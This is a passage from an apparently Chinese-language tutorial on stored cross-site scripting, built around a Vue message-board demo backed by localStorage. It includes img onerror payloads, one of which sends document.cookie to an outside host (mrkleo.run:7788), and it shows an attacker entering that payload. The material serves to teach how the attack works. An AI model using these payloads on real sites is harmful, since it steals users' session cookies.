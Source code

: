 ```html
          <img src="123" onerror="location.href='http://mrkleo.run:7788';">
          # 盗取用户cookie
          <img src="123" onerror="alert('我获取到你的cookie了：' + document.cookie)">
          # 获取他人cookie后，跳转到攻击者的网站
          <img src="123" onerror="location.href='http://mrkleo.run:7788/' + document.cookie">
    -->

  </div>
</template>

<script>
export default {
  name: 'Home',
  data() {
    return {
      text: '',
      msgList: []
    }
  },
  components: {
  },
  methods: {
    addSubmit() {
      // 本地缓存模拟网站数据库
      let arr = [];
      arr = localStorage.getItem('item');
      arr = JSON.parse(arr);
      !arr && (arr = []);
      arr.push(this.text);
      this.msgList = arr;
      this.text = '';
      localStorage.setItem('item', JSON.stringify(arr));
    }
  }

}
</script>

<style lang="less" scoped>
#btn {
  margin-left: 15px;
}
</style>
```

实现效果：

<img src="https://tva1.sinaimg.cn/large/008i3skNly1gwsru0bq5rj30f50gq0t5.jpg" style="zoom:67%;" />

攻击者输入攻击脚本：

```html
<img src="123" onerror="location.href='http://mrkleo.run:7788/' + document.cookie">
```
